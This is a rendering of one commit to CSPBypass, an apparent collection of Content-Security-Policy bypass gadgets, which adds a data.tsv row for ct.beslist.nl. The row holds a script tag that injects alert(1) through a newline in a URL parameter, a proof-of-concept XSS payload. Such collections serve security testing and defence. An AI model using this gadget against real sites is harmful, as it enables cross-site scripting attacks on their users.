

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update data.tsv
Add ct.beslist.nl

```diff
--- a/data.tsv
+++ b/data.tsv
+row 50: ct.beslist.nl <script src="https://ct.beslist.nl/ct_refresh?shopid=%22;%0a%0dalert(1);%20//%20"></script>
```
